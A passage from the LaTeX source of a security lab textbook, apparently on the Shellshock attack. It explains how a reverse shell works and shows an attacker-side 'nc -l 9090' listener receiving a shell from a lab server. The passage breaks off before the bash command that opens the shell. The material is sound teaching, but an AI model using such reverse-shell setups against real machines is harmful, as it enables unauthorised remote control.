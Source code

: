 


The key idea of reverse shell is to redirect its standard input, output, and error devices to a
network connection, so the shell gets its input from the connection, and prints out its output
also to the connection. At the other end of the connection is a program run by the
attacker; the program simply displays whatever comes from the shell at the other end,
and sends whatever is typed by the attacker to the shell, over the network connection.

A commonly used program by attackers is
\texttt{netcat}, which, if running
with the \texttt{"-l"} option, becomes a TCP server that listens for a connection on the
specified port. This server program basically prints out whatever is sent by the client, and
sends to the client whatever is typed by the user running the server.
In the following experiment, \texttt{netcat} (\texttt{nc} for short) is used
to listen for a connection on port \texttt{9090}~(let us focus only on the first line).


\begin{lstlisting}
Attacker(10.0.2.6):$ nc -nv -l 9090  (*@\reflectbox{\ding{217}} \textbf{Waiting for reverse shell}@*)
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$     (*@\reflectbox{\ding{217}} \textbf{Reverse shell from 10.0.2.5.}@*)
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet (*@\textbf{10.0.2.5}@*)  netmask 255.255.255.0  broadcast 10.0.2.255
        ...
\end{lstlisting}


The above \texttt{nc} command will block, waiting for a connection.
We now directly run the following bash program on the Server machine~(\texttt{10.0.2.5}) to emulate
what attackers would run after compromising the server via the Shellshock attack.
This bash command will trigger a
TCP connection to the attacker machine's port 9090, and a reverse shell will be created. We can
see the shell prompt from the above result, indicating that the shell is running on the Server
machine; we can type the \texttt{ifconfig} command to verify that the IP address is indeed
\texttt{10.0.2.5}, the one belonging to the Server machine.  Here is the bash command:

